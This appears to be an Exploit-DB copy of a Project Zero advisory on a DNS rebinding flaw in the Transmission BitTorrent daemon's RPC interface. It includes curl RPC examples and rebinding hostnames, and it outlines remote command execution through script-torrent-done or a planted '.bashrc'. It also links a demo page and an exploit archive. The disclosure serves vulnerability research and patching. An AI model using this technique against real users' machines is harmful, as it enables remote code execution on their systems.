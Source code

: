 The transmission bittorrent client uses a client/server architecture, the user interface is the client and a daemon runs in the background managing the downloading, seeding, etc.

Clients interact with the daemon using JSON RPC requests to a web server listening on port 9091. By default, the daemon will only accept requests from localhost.

A sample RPC session looks like this:

```
$ curl -H 'X-Transmission-Session-Id: foo'  -sI '{}' http://localhost:9091/transmission/rpc
HTTP/1.1 409 Conflict
Server: Transmission
X-Transmission-Session-Id: JL641xTn2h53UsN6bVa0kJjRBLA6oX1Ayl06AJwuhHvSgE6H
Date: Wed, 29 Nov 2017 21:37:41 GMT
```

```
$ curl -H 'X-Transmission-Session-Id: JL641xTn2h53UsN6bVa0kJjRBLA6oX1Ayl06AJwuhHvSgE6H'  -d '{"method":"session-set","arguments":{"download-dir":"/home/user"}}' -si http://localhost:9091/transmission/rpc
HTTP/1.1 200 OK
Server: Transmission
Content-Type: application/json; charset=UTF-8
Date: Wed, 29 Nov 2017 21:38:57 GMT
Content-Length: 36

{"arguments":{},"result":"success"}
```

As with all HTTP RPC schemes like this, any website can send requests to the daemon with XMLHttpRequest, but the theory is they will be ignored because requests must read and request a specific header, X-Transmission-Session-Id. Unfortunately, this design doesn't work because of an attack called "dns rebinding". Any website can simply create a dns name that they are authorized to communicate with, and then make it resolve to localhost.

The attack works like this:

1. A user visits http://attacker.com.
2. attacker.com has an <iframe> to attack.attacker.com, and have configured their DNS server to respond alternately with 127.0.0.1 and 123.123.123.123 (an address they control) with a very low TTL.
3. When the browser resolves to 123.123.123.123, they serve HTML that waits for the DNS entry to expire, then they XMLHttpRequest to attack.attacker.com and have permission to read and set headers.

You can test this attack like this, I have a domain I use for testing called rbndr.us, you can use this page to generate hostnames:

https://lock.cmpxchg8b.com/rebinder.html

Here I want to alternate between 127.0.0.1 and 199.241.29.227, so I use 7f000001.c7f11de3.rbndr.us:

```
$ host 7f000001.c7f11de3.rbndr.us
7f000001.c7f11de3.rbndr.us has address 127.0.0.1
$ host 7f000001.c7f11de3.rbndr.us
7f000001.c7f11de3.rbndr.us has address 199.241.29.227
$ host 7f000001.c7f11de3.rbndr.us
7f000001.c7f11de3.rbndr.us has address 127.0.0.1
```

Here you can see the resolution alternates between the two addresses I want (note that depending on caching it might take a while to switch, the TTL is set to minimum but some servers round up).

I just wait for the cached response to expire, and then POST commands to the server.

Exploitation is simple, you could set script-torrent-done-enabled and run any command, or set download-dir to /home/user/ and then upload a torrent for ".bashrc". 

Here is my (simple) demo:

http://lock.cmpxchg8b.com/Asoquu3e.html

See screenshots for how it's supposed to work, I've only tested it on fedora with `yum install transmission-daemon` and all default settings, but this should work on any platform that transmission supports.

EDB Note ~ https://bugs.chromium.org/p/project-zero/issues/detail?id=1447
EDB Note ~ https://github.com/transmission/transmission/pull/468
EDB Note ~ https://github.com/taviso/rbndr/tree/a189ffd9447ba78aa2702c5649d853b6fb612e3b

Download: https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/43665.zip